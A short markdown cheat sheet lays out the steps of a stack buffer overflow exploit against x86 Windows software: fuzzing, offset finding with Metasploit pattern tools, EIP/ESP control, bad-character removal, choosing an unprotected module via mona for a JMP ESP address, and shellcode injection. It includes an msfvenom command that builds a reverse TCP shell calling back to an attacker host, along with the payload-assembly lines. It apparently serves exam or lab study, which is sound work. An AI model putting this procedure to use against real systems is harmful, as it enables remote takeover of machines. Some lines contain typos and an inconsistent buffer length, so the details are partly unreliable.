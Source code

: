 # Bufferoverflow sequence/process

### 1. Fuzzing

Create script and send "A" for the payload size (2700, 3500 etc)

### 2. Replicate crash and identify the exact charset /bytes where the application gets crash

Use following commands to generate unique chars and offset value

```
/usr/share/metasploit-framwork/tools/pattern_create.rb 2700
/usr/share/metasploit-framwork/tools/pattern_offset.rb <EIP Address>  
```
### 3. Update script and check we can control both EIP and ESP register

```
buf += "A"*146 + "B"*4 + C*(2700-146-4)
```

### 4. Control ESP register and identify the bad characters 

Some of the bad characters are "\x00", "\x0a" etc

### 5. Identfify mona modules and choose the exact module (Without CSP and ASLR)

Choose a module does not contain memory protetcion such as ASLR and DEP -> It should be false
Memory range should not contain any bad character such as 00 and 0a (In our case here)
```
!mona modules 
```

Identify the memory address of jmp esp
configure this address in reverse order in the script, as it is x86 architecture
Eg: \x9d\xdc\x25\x77
```
Search jmp esp
buf += "A"*146 + "\x9d\xdc\x25\x77" + "C"*(2600-146-4)

```

### 6. Generating Shell code using msfvenom & removing bar chars

```
msfvenom --payload windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 --bad-chars '\x00\x0a' -f C
```

### 7. Update/inject this payload in the script
Along with payload, give some space to decode the code
```
buf += "A"*146 + "\x9d\xdc\x25\x77" + "\x90"*16 + shellcode + "C"*(2700-146-4-16-351)
```
